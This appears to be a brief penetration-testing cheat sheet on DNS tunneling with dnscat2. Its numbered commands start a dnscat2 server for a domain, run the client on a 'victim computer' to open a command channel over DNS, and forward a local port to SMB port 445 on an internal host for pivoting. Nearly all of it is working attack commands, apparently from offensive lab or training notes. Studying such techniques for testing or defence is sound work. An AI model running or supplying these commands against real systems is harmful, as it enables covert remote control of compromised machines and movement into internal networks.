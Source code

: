 #tunneling #portredirect #linux #windows 

### DNSCAT2

1. Start a tcpdump

```bash
sudo tcpdump -i ens192 udp port 53
``` 

2. In the authouritative server start DNSCat server

```bash
dnscat2-server feline.corp
```

3. Victim computer execute the client

```bash
./dnscat feline.corp
```

4.  Select the windows from the server

```bash
window -i 1
```

5. Start the listener on the port 4455 which forwards the port to 445 on the server 172.16.2.11

```bash
listen 127.0.0.1:4455 172.16.2.11:445
```


